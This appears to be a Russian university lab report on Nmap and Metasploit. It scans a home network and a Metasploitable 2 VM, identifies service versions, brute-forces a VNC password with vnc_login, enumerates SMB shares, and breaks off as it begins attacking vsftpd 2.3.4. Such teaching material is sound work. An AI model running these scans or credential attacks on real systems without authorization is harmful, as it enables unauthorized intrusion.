\documentclass{article}
\usepackage[utf8]{inputenc}
\usepackage[russian]{babel}
\usepackage[left=2cm,right=2cm,top=2cm,bottom=2cm,bindingoffset=0cm
]{geometry}
\usepackage{cmap}
\usepackage{fancyvrb}
\usepackage{graphicx}
\graphicspath{{pictures/}}
\DeclareGraphicsExtensions{.pdf,.png,.jpg}
\DefineShortVerb{\|}

\begin{document}

\begin{titlepage} \begin{center}

	\Large			
Санкт-Петербургский политехнический университет Петра Великого
			
	\vspace{0.2cm}	
Институт Информационных технологий и управления
		
	\vspace{2cm} \vfill \huge
Утилита для исследования сети и сканер портов Nmap
		
	\vfill 
	\begin{flushleft} \large \hangindent=8cm \hangafter=0
Выполнил: Сухинин А.А. гр. 53501/3 \hrulefill
			
Принял: Выглежанина К.Д. \hrulefill
	\end{flushleft}
		
	\vspace{2cm} \vfill \LARGE
2015 г.
		
\end{center} \end{titlepage}

\section{NMap}

\subsection{Цель работы}
~

Научиться сканировать хосты и порты, определять версии запущенных приложений.

\subsection{Ход работы}

\paragraph{Настройка}
~

Предварительно были скачаны образы Kali Linux и Metasploitable 2. Данные образы развернуты на виртуальных машинах, которые включены в режиме "Сетевой мост". В сети также присутствуют и другие компьютеры: один рабочий, три других ПК, домашний сервер. Шлюз - это роутер по адресу 191.168.1.1

\paragraph{Провести поиск активных хостов}
~

Поиск активных хостов можно произвести несколькими способами. Можно послать ICMP сообщение опрашивая все узлы либо попытаться просканировать популярные (1-1500) порты в диапазоне. Как правило, в современных сетях фильтруются ICMP пакеты, чтобы не предоставлять лишнюю информацию злоумышленнику и закрыть часть уязвимостей, таких как ping of death.

\begin{enumerate}
\item Стандартный ICMP ping

\begin{verbatim}
[*] exec: nmap -sn 192.168.1.*

Starting Nmap 6.47 ( http://nmap.org ) at 2015-05-24 11:58 EDT
Nmap scan report for router.asus.com (192.168.1.1)
Host is up (0.00052s latency).
MAC Address: 54:A0:50:83:A8:9C (Asustek Computer)
Nmap scan report for crazy_PC (192.168.1.25)
Host is up (0.000066s latency).
MAC Address: F4:6D:04:49:DC:FC (Asustek Computer)
Nmap scan report for 192.168.1.27
Host is up (0.044s latency).
MAC Address: 74:E5:43:65:15:F5 (Liteon Technology)
Nmap scan report for 192.168.1.35
Host is up (0.00021s latency).
MAC Address: 90:2B:34:DB:90:AD (Giga-byte Technology Co.)
Nmap scan report for crazy-mini (192.168.1.120)
Host is up (0.0046s latency).
MAC Address: C0:18:85:9E:54:0B (Hon Hai Precision Ind. Co.)
Nmap scan report for PODISH (192.168.1.132)
Host is up (0.017s latency).
MAC Address: 90:F6:52:6A:30:0D (Tp-link Technologies CO.)
Nmap scan report for kali (192.168.1.59)
Host is up.
Nmap done: 256 IP addresses (7 hosts up) scanned in 1.42 seconds
\end{verbatim}

\item Сканирование основных портов
\begin{verbatim}
[*] exec: nmap 192.168.1.*

Starting Nmap 6.47 ( http://nmap.org ) at 2015-05-24 12:01 EDT
Nmap scan report for router.asus.com (192.168.1.1)
Host is up (0.0024s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
1723/tcp open  pptp
9998/tcp open  distinct32
MAC Address: 54:A0:50:83:A8:9C (Asustek Computer)

Nmap scan report for crazy_PC (192.168.1.25)
Host is up (0.000058s latency).
Not shown: 986 closed ports
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
554/tcp   open  rtsp
1025/tcp  open  NFS-or-IIS
1026/tcp  open  LSA-or-nterm
1027/tcp  open  IIS
1030/tcp  open  iad1
1045/tcp  open  fpitp
1048/tcp  open  neod2
1049/tcp  open  td-postman
2869/tcp  open  icslap
5357/tcp  open  wsdapi
10243/tcp open  unknown
MAC Address: F4:6D:04:49:DC:FC (Asustek Computer)

...
\end{verbatim}
\end{enumerate}

\paragraph{Определить открытые порты}
~

Для сканирования портов запустим уязвимую машину Metaspoitable 2.

Можно просканировать основные открытые порты командой: nmap 192.168.1.217

Либо указать весь диапазон портов: nmap 192.168.1.217 -p 1-65535

\begin{verbatim}
[*] exec: nmap 192.168.1.217 -p 1-65535

Starting Nmap 6.47 ( http://nmap.org ) at 2015-05-24 12:08 EDT
Nmap scan report for 192.168.1.217
Host is up (0.00018s latency).
Not shown: 65505 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
23/tcp    open  telnet
25/tcp    open  smtp
53/tcp    open  domain
80/tcp    open  http
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
512/tcp   open  exec
513/tcp   open  login
514/tcp   open  shell
1099/tcp  open  rmiregistry
1524/tcp  open  ingreslock
2049/tcp  open  nfs
2121/tcp  open  ccproxy-ftp
3306/tcp  open  mysql
3632/tcp  open  distccd
5432/tcp  open  postgresql
5900/tcp  open  vnc
6000/tcp  open  X11
6667/tcp  open  irc
6697/tcp  open  unknown
8009/tcp  open  ajp13
8180/tcp  open  unknown
8787/tcp  open  unknown
39142/tcp open  unknown
50756/tcp open  unknown
55303/tcp open  unknown
56967/tcp open  unknown
MAC Address: 08:00:27:C0:D5:A0 (Cadmus Computer Systems)

Nmap done: 1 IP address (1 host up) scanned in 7.73 seconds
\end{verbatim}


\paragraph{Определить версии сервисов}
~

Для этого необходимо добавить ключ -sV к предыдущему пункту.

\begin{verbatim}
[*] exec: nmap 192.168.1.217 -p "*" -sV

Starting Nmap 6.47 ( http://nmap.org ) at 2015-05-24 12:15 EDT
Nmap scan report for 192.168.1.217
Host is up (0.00049s latency).
Not shown: 4219 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
512/tcp  open  exec?
513/tcp  open  login
514/tcp  open  shell?
1099/tcp open  rmiregistry GNU Classpath grmiregistry
1524/tcp open  shell       Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu
4.2.4-1ubuntu4))
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         Unreal ircd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
1 service unrecognized despite returning data. 
If you know the service/version, please submit the following fingerprint
at http://www.insecure.org/cgi-bin/servicefp-submit.cgi :
SF-Port514-TCP:V=6.47%I=7%D=5/24%Time=5561F938%P=i686-pc-linux-gnu
%r(NULL,
SF:2B,"\x01Couldn't\x20get\x20address\x20for\x20your\x20host\x20\(kali\)
SF:");
MAC Address: 08:00:27:C0:D5:A0 (Cadmus Computer Systems)
Service Info: Hosts:  metasploitable.localdomain, localhost,
irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
\end{verbatim}

\paragraph{Сохранить вывод утилиты в формате xml}
~

Для этого необходимо добавить к команде ключ -oX имя файла.

Файл, полученный в результате исполнения команды 
"nmap 192.168.1.217 -p"*" -sV -oX /home/nmap.xml" лежит в каталоге с
отчетом.

\paragraph{Изучить файлы nmap-services, nmap-os-db, nmap-service-probes}
~

Для удобства файл nmap-service-probes выкачан в каталог с отчетом.

\begin{enumerate}
\item nmap-service-probes

Перечислим основные директивы, используемые в файле.

\begin{enumerate}
\item Probe <протокол> <имя> q\dq<посылаемая строка>\dq

Где в качестве протокола может быть указать TCP или UDP, имя - любой набор английских символов, а между \dq \dq указывается строка, посылаемая на сервер.

\item match <название сервиса> <шаблон> [<версия>]

Сравнивает ответ с шаблоном, в случае соответствия завершает сопоставление.

\item softmatch  <название сервиса> <шаблон> [<версия>]

Аналогичен match, но не прекращает сопоставление в случае успеха.

\item totalwaitms  <миллисекунды>

Время ожидания
\end{enumerate}

\item nmap-os-db

Содержит набор отпечатков для каждой ОС представленных различными директивами.

Генерируются шесть пакетов специального вида, которые посылаются целевой машине с перерывом в 100 мс. Для получения результатов теста используются директивы SEQ, OPS, WIN и T1. Более подробную информацию можно получить по адресу http://nmap.org/book/osdetect-methods.html

\begin{enumerate}
\item SEQ - результаты последовательного анализа
\item OPS - флаги пакетов, полученных в ответ
\item WIN - размер окон
\item T1 - данные касательно ответа на первый пакет
\end{enumerate}

Также отпечаток может содержать директивы T2-T7 посылающие пакеты различного вида. Например, без указания флагов, с указанием флагов SYN, FIN, URG, PSH; а также пакеты другого вида. 

Кроме того, существует возможность тестировать указанный хост с помощью UDP пакетов (директива U1), а также множество других возможностей.

Модификация данного файла достаточно сложна и, как правило, производиться крайне редко.

\textbf{Пример отпечатка:}
\begin{verbatim}
# BT2700HGV DSL Router version 5.29.107.19
Fingerprint 2Wire BT2700HG-V ADSL modem
Class 2Wire | embedded || broadband router
CPE cpe:/h:2wire:bt2700hg-v
SEQ(SP=6A-BE%GCD=1-6%ISR=96-A0%TI=I%CI=I%II=I%SS=S%TS=A)
OPS(O1=M5B4NNSW0NNNT11%O2=M578NNSW0NNNT11%O3=M280W0NNNT11
%O4=M218NNSW0NNNT11%O5=M218NNSW0NNNT11%O6=M109NNSNNT11)
WIN(W1=8000%W2=8000%W3=8000%W4=8000%W5=8000%W6=8000)
ECN(R=Y%DF=Y%T=FA-104%TG=FF%W=8000%O=M5B4NNSW0N%CC=N%Q=)
T1(R=Y%DF=Y%T=FA-104%TG=FF%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=FA-104%TG=FF%W=0%S=A%A=Z%F=R%O=%RD=E44A4E43%Q=)
T5(R=Y%DF=Y%T=FA-104%TG=FF%W=0%S=Z%A=S+%F=AR%O=%RD=1F59B3D4%Q=)
T6(R=Y%DF=Y%T=FA-104%TG=FF%W=0%S=A%A=Z%F=R%O=%RD=1F59B3D4%Q=)
T7(R=N)
U1(DF=Y%T=FA-104%TG=FF%IPL=70%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(DFI=Y%T=FA-104%TG=FF%CD=S)
\end{verbatim}

\item nmap-services

Структура данного представлена в виде таблицы с тремя колонками.

Первая - имя сервиса.

Вторая - номер и тип порта.

Третья - как часто данный порт встречается.

\textbf{Фрагмент файла:}
\begin{verbatim}
systat	11/udp	0.000577	# Active Users
unknown	12/tcp	0.000063
daytime	13/tcp	0.003927
\end{verbatim}

\end{enumerate}

\paragraph{Выбрать пять записей из файла nmap-service-probes и описать их работу}
~

Для дополнительной наглядности рассмотрим распознанные сервисы на Metasploitable 2

\begin{enumerate}
\item Рассмотрим распознавание сервиса Samba

139/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)

Найдем соответствующую строку в файле
\begin{verbatim}
match netbios-ssn m=^\0\0\0.\xffSMBr\0\0\0\0\x88..\0\0[-\w. ]*\0+@
\x06\0\0\x01\0\x11\x06\0.*(?:[^\0]|[^_A-Z0-9-]\0)((?:[-\w]\0){2,50})=s 
p/Samba smbd/ v/3.X/ i/workgroup: $P(1)/
\end{verbatim}
Как и было описано выше, строка состоит из директивы match, названия сервиса и шаблона. Шаблон состоит из регулярного выражения и строки для печати. К выражениям взятым в скобках, при печати можно обращаться как к параметрам. Данная директива сопоставляет ответ с регулярным выражением  
\begin{verbatim}
^\0\0\0.\xffSMBr\0\0\0\0\x88..\0\0[-\w. ]*\0+
@\x06\0\0\x01\0\x11\x06\0.*(?:[^\0]|[^_A-Z0-9-]\0)((?:[-\w]\0){2,50})
\end{verbatim}
При этом, выражение подставленное вместо указанного ниже может быть использовано в качестве параметра при печати. Остальные игнорируются т.к. внутри скобок указан знак вопроса. (Прим. w - весь алфавит и цифры)
\begin{verbatim}
((?:[-\w]\0){2,50})
\end{verbatim}
Последняя строка определяет результат при совпадении. Ключ p указывает имя продукта, ключ v - версию, а i - дополнительную информацию. При выводе дополнительной информации также используется вспомогательная функция P(), которая удаляет все непечатаемые символы из параметра.
\begin{verbatim}
p/Samba smbd/ v/3.X/ i/workgroup: $P(1)/
\end{verbatim}

\item Probe TCP NULL q||

Данная директива используется для тестирования TCP портов, ее название NULL. Видимо, это связано с тем, что она не передает никакой запрос серверу.

\item totalwaitms 6000

Данная строка означает, что максимальное время ожидания ответа равно шесть секунд.

\item Рассмотрим сопоставление для telnet
\begin{verbatim}
match telnet m|\xff\xfd\x18\xff\xfd \xff\xfd#\xff\xfd'$| p/Linux 
telnetd/ o/Linux/ cpe:/o:linux:linux_kernel/a
\end{verbatim}

Сравнивает ответ с последовательностью байт 0xff, 0xfd, 0x18, 0xff, 0xfd, 0xff, 0xfd, '\#', 0xff, 0xfd, ''', конец строки.

В случае успеха возвращает имя продукта Linux telnetd, ОС - Linux, cpe (Common platform enumeration) - o:linux:linux-kernel


\item Добавленные строчки:
\begin{verbatim}
Probe TCP HIYOU q|Hi, you!|

match simple tcp m|Hi!\r\nI'm Simple Server version ([0-9.]*)| 
p/Simple Server/ v/$P(1)/
\end{verbatim}

Первая строка посылает запрос на открытый TCP порт "Hi, you!".

В этом случае от сервера ожидается ответ:
\begin{verbatim}
Hi!
I'm Simple Server version X.X.X
\end{verbatim}

Из ответа извлекается версия и возвращается в качестве ответа.

\textbf{Пример использования nmap:}

\begin{verbatim}
[*] exec: nmap 192.168.1.25 -p 1879 -sV

Starting Nmap 6.47 ( http://nmap.org ) at 2015-05-24 17:09 EDT
Nmap scan report for crazy_PC (192.168.1.25)
Host is up (0.00018s latency).
PORT     STATE SERVICE      VERSION
1879/tcp open  SimpleServer Simple Server 1.0
MAC Address: F4:6D:04:49:DC:FC (Asustek Computer)

Service detection performed. Please report any incorrect results at 
http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.23 seconds
\end{verbatim}

\textbf{Пример использования nmap без изменений:}

\begin{verbatim}
[*] exec: nmap 192.168.1.25 -p 1879 -sV

Starting Nmap 6.47 ( http://nmap.org ) at 2015-05-24 17:19 EDT
Nmap scan report for crazy_PC (192.168.1.25)
Host is up (0.00024s latency).
PORT     STATE SERVICE VERSION
1879/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/
version, please submit the following fingerprint at http://
www.insecure.org/cgi-bin/servicefp-submit.cgi :
SF-Port1879-TCP:V=6.47%I=7%D=5/24%Time=55624072%P=i686-pc-linux-gnu%r(Gene
SF:ricLines,5,"azaza")%r(GetRequest,5,"azaza")%r(HTTPOptions,5,"azaza")%r(
SF:RTSPRequest,5,"azaza")%r(RPCCheck,5,"azaza")%r(DNSVersionBindReq,5,"aza
SF:za")%r(DNSStatusRequest,5,"azaza")%r(Help,5,"azaza")%r(SSLSessionReq,
5,
SF:"azaza")%r(Kerberos,5,"azaza")%r(SMBProgNeg,5,"azaza")%r(X11Probe,
5,"az
SF:aza")%r(FourOhFourRequest,5,"azaza")%r(LPDString,5,"azaza")
%r(LDAPBindR
SF:eq,5,"azaza")%r(SIPOptions,5,"azaza")%r(LANDesk-RC,5,"azaza")
%r(Termina
SF:lServer,5,"azaza")%r(NCP,5,"azaza")%r(NotesRPC,5,"azaza")
%r(WMSRequest,
SF:5,"azaza")%r(oracle-tns,5,"azaza")%r(afp,5,"azaza")%r(kumo-server,
5,"az
SF:aza");
MAC Address: F4:6D:04:49:DC:FC (Asustek Computer)

Service detection performed. Please report any incorrect results at 
://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.56 seconds
\end{verbatim}

\textbf{Сервер лежит в репозитории в каталоге programming}
\end{enumerate}


\paragraph{Выбрать один скрипт из состава Nmap и описать его работу}
~

В качестве скрипта, для рассмотрения был выбран скрипт перебора паролей ftp. Для удобства данный скрипт помещен в каталог с отчетом.

nmap предоставляет мощный движок для написания скриптов (NSE). Языком написания скриптов является LUA. nmap предоставляет обширную коллекцию скриптов, которая находится в поддиректории scripts.

Как и большинство исходных файлов, скрипт начинается с импорта зависимостей. Затем следуют его описание и комментарии к использованию. После указания автора, лицензии и категории скрипта начинается значимый код.

Оставшийся код можно разделить на три части:
Описание глобальных переменных, описание класса driver и использование движка перебора.

\begin{enumerate}
\item  Глобальные переменные

В этой части объявляются переменные указывающие используемый порт и  максимальный таймаут

\item Класс driver

Специального вида класс, с реализованным конструктором и методами connect, disconnect и login. В методах connect и disconnect производиться управление сокетом - установка и закрытие соединения с хостом указанным в конструкторе. Метод login осуществляет попытку авторизации. В данном методе, по открытому соединению последовательно передаются команды USER * и PASS * и далее анализируются полученные ответы. В случае, если авторизация прошла успешно, метод возращает true.

\item Функция action

В данной функции используется движок перебора паролей brute.Engine, которому в качестве параметров передаются имена пользователей и пароли, а также класс Driver.
\end{enumerate}

\paragraph{Просканировать виртуальную машину Metasploitable2 используя db nmap из состава metasploit-framework}
~

Предварительно необходимо включить postgresql и metasploit.

\begin{verbatim}
service postgresql start
service metasplot start
msfconsole
\end{verbatim}

Затем использовать любую команду из перечисленных выше, но вместо nmap использовать db nmap. Все результаты будут занесены в базу данных. Таким образом, db nmap позволяет повторно использовать результаты и экономить большое количество времени.

\begin{verbatim}
msf > db_nmap -sn 192.168.1.*
[*] Nmap: Starting Nmap 6.47 ( http://nmap.org ) at 2015-05-24 18:30 EDT
[*] Nmap: Nmap scan report for router.asus.com (192.168.1.1)
[*] Nmap: Host is up (0.0011s latency).
[*] Nmap: MAC Address: 54:A0:50:83:A8:9C (Asustek Computer)
[*] Nmap: Nmap scan report for crazy_PC (192.168.1.25)
[*] Nmap: Host is up (0.000062s latency).
[*] Nmap: MAC Address: F4:6D:04:49:DC:FC (Asustek Computer)
[*] Nmap: Nmap scan report for 192.168.1.27
[*] Nmap: Host is up (0.22s latency).
[*] Nmap: MAC Address: 74:E5:43:65:15:F5 (Liteon Technology)
[*] Nmap: Nmap scan report for crazy_server (192.168.1.35)
[*] Nmap: Host is up (0.00039s latency).
[*] Nmap: MAC Address: 90:2B:34:DB:90:AD (Giga-byte Technology Co.)
[*] Nmap: Nmap scan report for crazy-mini (192.168.1.120)
[*] Nmap: Host is up (0.11s latency).
[*] Nmap: MAC Address: C0:18:85:9E:54:0B (Hon Hai Precision Ind. Co.)
[*] Nmap: Nmap scan report for PODISH (192.168.1.132)
[*] Nmap: Host is up (0.13s latency).
[*] Nmap: MAC Address: 90:F6:52:6A:30:0D (Tp-link Technologies CO.)
[*] Nmap: Nmap scan report for 192.168.1.217
[*] Nmap: Host is up (0.00013s latency).
[*] Nmap: MAC Address: 08:00:27:C0:D5:A0 (Cadmus Computer Systems)
[*] Nmap: Nmap scan report for kali (192.168.1.59)
[*] Nmap: Host is up.
[*] Nmap: Nmap done: 256 IP addresses (8 hosts up) scanned in 2.43 seconds
\end{verbatim}

\paragraph{Исследовать различные этапы и режимы работы nmap с использованием утилиты Wireshark}
~

При помощи утилиты wireshark были рассмотрены три случая работы nmap:

\begin{enumerate}
\item Сканирование локальной сети
Как видно из примера ниже, сканирование локальной сети производится не при помощи ICMP пакетов, а при помощи ARP запросов.

При сканировании определенного узла wireshark отлавливает два пакета связанных с arp запросом и ответом.
\begin{verbatim}
No.     Time           Source                
Destination           Protocol Length Info
      1 0.000000000    CadmusCo_bf:fd:c9     
      Broadcast             ARP      42     Who 
      has 10.0.0.30?  Tell 10.0.0.20
      
      
No.     Time           Source                
Destination           Protocol Length Info
      2 0.000256000    CadmusCo_f1:b5:af     
      CadmusCo_bf:fd:c9     ARP      60     
      10.0.0.30 is  at 08:00:27:f1:b5:af
\end{verbatim}

\item Успешное сканирование порта
При сканировании порта nmap пытается установить соединение по указанному сокету. Установка TCP соединения, как известно, производится согласно правила трех рукопожатий. Анализируя второй шаг этого процесса можно определить состояние указанного сокета. Кроме того, следует отметить, что данному процессу предшествует обыкновенное сканирование, указанное в предыдущем пункте.

\begin{verbatim}
No.     Time           Source                
Destination           Protocol Length Info
      1 0.000000000    CadmusCo_bf:fd:c9     
      Broadcast             ARP      42     Who 
      has 10.0.0.30?  Tell 10.0.0.20
      
No.     Time           Source                
Destination           Protocol Length Info
      2 0.000271000    CadmusCo_f1:b5:af     
      CadmusCo_bf:fd:c9     ARP      60     
      10.0.0.30 is at 08:00:27:f1:b5:af
      
No.     Time           Source                
Destination           Protocol Length Info
      3 0.001097000    10.0.0.20             
      10.0.0.30             TCP      58     57092 
      > ssh [SYN] Seq=0 Win=1024 Len=0 MSS=1460

No.     Time           Source                
Destination           Protocol Length Info
      4 0.001340000    10.0.0.30             
      10.0.0.20             TCP      60     ssh > 
      57092 [SYN, ACK] Seq=0 Ack=1 Win=5840 Len=0 
      MSS=1460

No.     Time           Source                
Destination           Protocol Length Info
      5 0.001351000    10.0.0.20             
      10.0.0.30             TCP      54     57092 
      > ssh [RST] Seq=1 Win=0 Len=0
\end{verbatim}
Согласно правила трех рукопожатий ожидается следующая последовательность пакетов с флагами SYN, SYN+ACK, ACK. Как видно из примера, в ответ на попытку установки соединения (SYN) хост подтверждает установку соединения (SYN+ACK). Последим шагом должна является отправка ACK, однако так как нет необходимости устанавливать соединение, в данном случае отправляется RST.

\item Неудачное сканирование порта
Данный пример иллюстрирует сканирование закрытого порта. Как и в предыдущем случае, процесс протекает по тому же алгоритму, однако на втором шаге исследуемый хост отправляет пакет с флагом RST, сообщая о том, что порт закрыт.
\begin{verbatim}
No.     Time           Source                
Destination           Protocol Length Info
      1 0.000000000    CadmusCo_bf:fd:c9     
      Broadcast             ARP      42     Who 
      has 10.0.0.30?  Tell 10.0.0.20

No.     Time           Source                
Destination           Protocol Length Info
      2 0.000218000    CadmusCo_f1:b5:af     
      CadmusCo_bf:fd:c9     ARP      60     
      10.0.0.30 is at 08:00:27:f1:b5:af

No.     Time           Source                
Destination           Protocol Length Info
      3 0.001017000    10.0.0.20             
      10.0.0.30             TCP      58     63464 
      > vlsi-lm [SYN] Seq=0 Win=1024 Len=0 
      MSS=1460

No.     Time           Source                
Destination           Protocol Length Info
      4 0.001245000    10.0.0.30             
      10.0.0.20             TCP      60     vlsi-
      lm > 63464 [RST, ACK] Seq=1 Ack=1 Win=0 
      Len=0
\end{verbatim}

\end{enumerate}

\subsection{Выводы}
~

В ходе данной работы были изучены основные возможности nmap. Определение активных хостов, сканирование портов, определение версий сервисов, дополнение определения версий сервисов, были рассмотрены основные файлы используемые для определения версий сервисов и ОС. В качестве примера - один скрипт перебора паролей. Также была рассмотрена версия db nmap сохраняющая результаты в БД для последующего применения. 

Инструмент nmap является мощным и гибким инструментом для сбора информации. При этом, не стоит забывать, что именно сбор информации определяет успех предстоящей атаки.

\section{Metasploit}

\subsection{Цель работы}
~

Изучить основные возможности инструмента тестов на проникновение Metasploit.
\subsection{Ход работы}

\paragraph{Используя документацию изучить базовые понятия - auxiliary, payload, exploit, encoder}
~

\begin{enumerate}
\item auxiliary - являются вспомогательными модулями, которые не могут предоставить доступ к консоли, однако играют важную роль в сопровждении тестов на проникновение.

\item payload - полезная нагрузка, выполняющая определенную роль в фреймворке.

\item exploit - фрагмент программного кода, использующего уязвимость программного обеспечения.

\item encoder - модули, предназначенные для обобщения payload
\end{enumerate}

\paragraph{Запустить msfconsole, узнать список допустимых команд (help)}
~

\paragraph{Команды по работе с эксплойтом}
~

\begin{enumerate}
\item use — Выбор эксплоита
search — Поиск. Команда поиска более расширена; если вы забыли точное название или путь расположения эксплоита, она способна отобразить всю имеющуюся информацию
\item show options — Просмотр параметров для настройки. После выбора эксплоита, вы можете посмотреть какие опции доступны для настройки
\item show payload — Просмотр полезных нагрузок. Msf содержит множество полезных нагрузок; воспользовавшись этой командой можно также посмотреть рекомендуемые нагрузки для конкретного эскплоита или ОС
\item info — Просмотр подробной информации о полезной нагрузке
\item set — Установка параметров. Команда set устанавливает нужные параметры, например, RHOST(remote) и LHOST(local), или полезную нагрузку 
\item check — Проверка хоста на уязвимость
\item exploit — Запуск эксплоита
\end{enumerate}

\paragraph{Запустить msfconsole, узнать список допустимых команд (help)}
~

\begin{verbatim}
    Command       Description
    -------       -----------
    ?             Help menu
    back          Move back from the current context
    banner        Display an awesome metasploit banner
    cd            Change the current working directory
    color         Toggle color
    connect       Communicate with a host
    edit          Edit the current module with $VISUAL or $EDITOR
    exit          Exit the console
    go_pro        Launch Metasploit web GUI
    grep          Grep the output of another command
    help          Help menu
    info          Displays information about one or more module
    irb           Drop into irb scripting mode
    jobs          Displays and manages jobs
    kill          Kill a job
    load          Load a framework plugin
    loadpath      Searches for and loads modules from a path
    makerc        Save commands entered since start to a file
    popm          Pops the latest module off the stack and makes it active
    previous      Sets the previously loaded module as the current module
    pushm         Pushes the active or list of modules onto the module stack
    quit          Exit the console
    reload_all    Reloads all modules from all defined module paths
    resource      Run the commands stored in a file
    route         Route traffic through a session
    save          Saves the active datastores
    search        Searches module names and descriptions
    sessions      Dump session listings and display information about sessions
    set           Sets a variable to a value
    setg          Sets a global variable to a value
    show          Displays modules of a given type, or all modules
    sleep         Do nothing for the specified number of seconds
    spool         Write console output into a file as well the screen
    threads       View and manipulate background threads
    unload        Unload a framework plugin
    unset         Unsets one or more variables
    unsetg        Unsets one or more global variables
    use           Selects a module by name
    version       Show the framework and console library version numbers
\end{verbatim}

\paragraph{Команды по работе с БД}
~

\begin{verbatim}
    Command           Description
    -------           -----------
    creds             List all credentials in the database
    db_connect        Connect to an existing database
    db_disconnect     Disconnect from the current database instance
    db_export         Export a file containing the contents of the database
    db_import         Import a scan result file (filetype will be auto-detected)
    db_nmap           Executes nmap and records the output automatically
    db_rebuild_cache  Rebuilds the database-stored module cache
    db_status         Show the current database status
    hosts             List all hosts in the database
    loot              List all loot in the database
    notes             List all notes in the database
    services          List all services in the database
    vulns             List all vulnerabilities in the database
    workspace         Switch between database workspaces

\end{verbatim}

\paragraph{GUI оболочка Armitage}
~

Графическая обочка Armitage является фронтэндом фреймворка и позволяет лучше понять процесс атаки и в полной мере реализовать силу metasploit.

\paragraph{GUI веб-клиент}
~

Для доступа к веб клиенту необходимо проверить статус веб-сервера metasploit и запустить apache. Клиент будет доступен на порту 3790.


\paragraph{Подключиться к VNC-серверу, получить доступ к консоли}
~

\begin{enumerate}
\item При помощи команды search находим подходящий модуль
\item Устанавливаем модуль в качестве используемого
\item Устанавливаем параметры модуля (количество ядер и адрес удаленного хоста)
\item запускаем модуль
\item получаем удаленный доступ, используя vnc клиент и полученный пароль.
\end{enumerate}

\begin{verbatim}
msf > search vnc

Matching Modules
================

   Name                                               Disclosure Date  Rank     Description
   ----                                               ---------------  ----     -----------
   auxiliary/admin/vnc/realvnc_41_bypass              2006-05-15       
   normal   RealVNC NULL Authentication Mode Bypass
   auxiliary/scanner/vnc/vnc_login                                     
   normal   VNC Authentication Scanner
   auxiliary/scanner/vnc/vnc_none_auth                                 
   normal   VNC Authentication None Detection

...

msf > use auxiliary/scanner/vnc/vnc_login
msf auxiliary(vnc_login) > set RHOSTS 192.168.0.104
RHOSTS => 192.168.0.104
msf auxiliary(vnc_login) > set THREADS 4
THREADS => 4
msf auxiliary(vnc_login) > run

[*] 192.168.0.104:5900 - Starting VNC login sweep
[+] 192.168.0.104:5900 - LOGIN SUCCESSFUL: :password
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed


root@kali:~# xtightvncviewer 192.168.0.104
Connected to RFB server, using protocol version 3.3
Performing standard VNC authentication
Password: 
\end{verbatim}

\paragraph{Получить список директорий в общем доступе по протоколу SMB}
~

\begin{enumerate}
\item При помощи команды search находим подходящий модуль
\item Устанавливаем модуль в качестве используемого
\item Устанавливаем параметры модуля (количество ядер и адрес удаленного хоста)
\item запускаем модуль
\end{enumerate}

\begin{verbatim}
msf > use auxiliary/scanner/smb/smb_enumshares 
msf auxiliary(smb_enumshares) > set RHOSTS 192.168.0.104
RHOSTS => 192.168.0.104
msf auxiliary(smb_enumshares) > set THREADS 4
THREADS => 4
msf auxiliary(smb_enumshares) > run

[+] 192.168.0.104:139 - print$ - (DISK) Printer Drivers
[+] 192.168.0.104:139 - tmp - (DISK) oh noes!
[+] 192.168.0.104:139 - opt - (DISK) 
[+] 192.168.0.104:139 - IPC$ - (IPC) IPC Service (metasploitable 
server (Samba 3.0.20-Debian))
[+] 192.168.0.104:139 - ADMIN$ - (IPC) IPC Service 
(metasploitable server (Samba 3.0.20-Debian))
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
\end{verbatim}

\paragraph{Получить консоль используя уязвимость в vsftpd}
~

\begin{enumerate}
\item Сканируем целевую машину с целью определить версию ftp сервера
\item Осуществляем поиск подходящего эксплойта
\item Выбираем подходящий payload, в данном случае он единственный
\item Устанавливаем параметры эксплойта (payload, rhost)
\item Запускаем эксплойт
\end{enumerate}

\begin{verbatim}
msf auxiliary(smb_enumshares) > nmap 192.168.0.104 -p 21 -sV
[*] exec: nmap 192.168.0.104 -p 21 -sV

Starting Nmap 6.47 ( http://nmap.org ) at 2015-06-03 07:05 EDT
Nmap scan report for 192.168.0.104
Host is up (0.00016s latency).
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 08:00:27:C0:D5:A0 (Cadmus Computer Systems)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results 
at http://nmap.org/submit/ .
